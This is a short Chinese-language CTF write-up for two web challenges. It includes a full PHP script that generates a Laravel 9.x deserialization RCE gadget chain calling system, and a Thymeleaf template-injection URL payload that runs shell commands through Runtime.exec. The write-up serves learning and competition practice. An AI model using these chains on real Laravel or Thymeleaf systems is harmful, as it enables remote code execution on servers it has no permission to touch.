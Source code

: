 ### Just Kidding



先用dirsearch扫一下，发现`/www.zip`
下载下来源码，本地构建了个环境
联系到题目说的`Laravel`，很明显就是一个关于Laravel的框架题了，先去google了一下`Laravel 9.12.2 exploit`没找到，看了下最新的是9.8
于是想着自己对着教程挖挖洞，然后看ctfshow的Laravel挖7.x的洞的视频，还是有很多地方有些不一样，于是就放弃了
如果是自己挖的话，题目应该不会出这么快
最后还是去看来下9.8的链子，一个最新的rce链子再本地用的时候，惊喜的发现弹出来了计算器
最终的exploit

```php
<?php
namespace Faker{
    class Generator{
        protected $providers = [];
        protected $formatters = [];
        function __construct()
        {
            $this->formatter = "dispatch";
            $this->formatters = 9999;
        }

    }
}

namespace Illuminate\Broadcasting{
    class PendingBroadcast
    {
        public function __construct()
        {
            $this->event = "cat /flag";
            $this->events = new \Faker\Generator();
        }
    }
}

namespace Symfony\Component\Mime\Part{
    abstract class AbstractPart
    {
        private $headers = null;
    }
    class SMimePart extends AbstractPart{
        protected $_headers;
        public $inhann;
        function __construct(){
            $this->_headers = ["dispatch"=>"system"];
            $this->inhann = new \Illuminate\Broadcasting\PendingBroadcast();
        }
    }
}


namespace{
    $a = new \Symfony\Component\Mime\Part\SMimePart();
    $ser = preg_replace("/([^\{]*\{)(.*)(s:49.*)(\})/","\\1\\3\\2\\4",serialize($a));
    echo base64_encode(str_replace("i:9999","R:2",$ser));
}
```

目前跟着找链子还勉强能跟着，但其实很多地方还是不太了解，所以等学了反序列化再来尝试自己复盘7.x的链子和这条链子吧



## Challenger

这道题是`Thymeleaf模板注入`

给了jar附件，直接解压或者反编译都可

发现`/eval`路由下存在`lang`变量可控，并且返回了`lang`

payload：

```text
/eval?lang=__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22cat flag%22).getInputStream()).next()%7d__::.
```

不会java(T_T)



想复盘一下`博学多闻的花花`和`QRCode Maker`但实在是无从下手，先学习吧...











